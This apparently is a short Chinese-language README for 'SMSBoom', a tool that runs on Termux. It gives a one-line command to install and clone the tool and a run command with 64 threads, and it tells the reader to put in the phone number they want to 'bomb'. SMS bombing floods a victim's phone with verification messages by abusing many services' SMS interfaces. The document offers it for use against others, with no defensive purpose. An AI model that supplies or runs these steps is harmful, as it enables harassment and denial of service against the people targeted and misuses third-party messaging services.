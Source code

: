 ## 概述
- 如果你还没有下载termux可以点击[这里](https://f-droid.org/en/packages/com.termux/)
  
- 假如你在代码使用的过程中出现
>Do you want to continue? [Y/n]
-直接回车enter即可
  ### 一键代码使用
  `pkg install git && pkg install python && pkg install openssl && git clone https://github.com/AdminWhaleFall/SMSBoom.git/ && cd SMSBoom && pip install -r requirements.txt && python smsboom.p`
- 直接粘贴代码进入即可，后续可以直接使用下列指令
- 
  `cd SMSBoom;python smsboom.py run -t 64 -p 184****9269 -f 60 `
  将手机号替换为你需要轰炸的手机号
